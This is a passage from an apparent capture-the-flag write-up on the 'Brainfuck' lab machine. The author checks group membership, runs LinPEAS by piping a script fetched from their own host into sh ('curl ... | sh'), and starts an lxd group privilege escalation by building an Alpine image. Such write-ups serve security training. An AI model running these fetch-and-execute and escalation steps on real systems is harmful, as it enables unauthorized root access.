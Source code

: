It's the same as the SMTP one.

**In the `id`'s output, we're inside the `lxd` group:**
```shell
orestis@brainfuck:~$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
```

Maybe we could escalate our privilege via that.

**LinPEAS:**
```shell
┌[siunam♥earth]-(/usr/share/peass/linpeas)-[2023.06.04|21:12:01(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
orestis@brainfuck:~$ curl -s http://10.10.14.26/linpeas.sh | sh
[...]
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 2.1


/tmp/tmux-1000
[...]
```

**Found tmux session.** Maybe we could do tmux sessions hijacking.

However, it's not exploitable in version 2.1.

**Now, let's try lxd/lxc group privilege escalation:** (All steps are from [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/))

- Download build-alpine in your local machine through the [git repository](https://github.com/saghul/lxd-alpine-builder):

```shell
┌[siunam♥earth]-(/opt)-[2023.06.04|21:28:46(HKT)]
└> git clone https://github.com/saghul/lxd-alpine-builder.git
```

- Execute the script "`build-alpine`" that will build the latest Alpine image as a compressed file:

```shell
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:29:34(HKT)]-[git://master ✗]
└> ./build-alpine 
build-alpine: must be run as root
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:29:36(HKT)]-[git://master ✗]
└> sudo ./build-alpine                  
[...]
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:30:11(HKT)]-[git://master ✗]
└> ls -lah                    
[...]
-rw-r--r--   1 root   root 2.5M Jun  4 21:30 alpine-v3.8-x86_64-20230604_2130.tar.gz
[...]
```
